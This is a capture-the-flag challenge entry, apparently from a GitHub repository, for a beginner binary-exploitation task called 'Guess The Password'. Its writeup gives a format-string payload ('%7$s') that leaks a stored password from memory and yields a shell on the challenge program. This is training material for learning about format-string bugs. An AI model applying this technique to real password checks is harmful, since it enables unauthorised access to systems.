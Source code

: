 # Name
Guess The Password

# Description
I've been trying to hack into this server, but it's locked by some password checking mechanism. Every time that an account gets locked, it randomly generates a new password. Any idea how to get past this?

TODO: Put a netcat command here telling them which server to connect to in order to test the exploit.

# Difficulty
2/10

# Flag
I haven't programmed a flag into this yet. Basically, after they exploit the program, they should get a shell into the server running this program. There should be a flag.txt file on that server in the same directory as the program, which they should be able to cat. Whoever is setting up this server can just put whatever they want into the flag.txt file and have that be the flag.

# Hints
None

# Author Name
Nihaal Prasad

# Writeup
If you type in ```%7$s``` as the password, it will print out the actual password from memory. Just paste that password in to get root access.

```
$ ./guess
What's the password?: %7$s
Incorrect password: k73<&e3J+T0#`%`Ezcu64J.HfOX3=}nDP#zV$/<0}fM_(0&>s8T)b}kdN_3k^#K1AG#_VZooBYPdiq$xEs=)r**Bj=JJ[1u8Y5wKo%=M^)4cz8]A-ze;&+x,b^q?ohqJ}'v*FOX@Xl%U@b2hxw%:$}Gg]:Bi>P5>WGb9v<YQ*^Be\TOpNn,lnmog)NRb $<qK FD=!1aySHq)3cq$+z.y'1>U "o$X|iYDIv_ZstIXgmkfzo.29C:K{+K 7irOn
What's the password?: k73<&e3J+T0#`%`Ezcu64J.HfOX3=}nDP#zV$/<0}fM_(0&>s8T)b}kdN_3k^#K1AG#_VZooBYPdiq$xEs=)r**Bj=JJ[1u8Y5wKo%=M^)4cz8]A-ze;&+x,b^q?ohqJ}'v*FOX@Xl%U@b2hxw%:$}Gg]:Bi>P5>WGb9v<YQ*^Be\TOpNn,lnmog)NRb $<qK FD=!1aySHq)3cq$+z.y'1>U "o$X|iYDIv_ZstIXgmkfzo.29C:K{+K 7irOn
You guessed correctly!
$ ls
guess
$
```
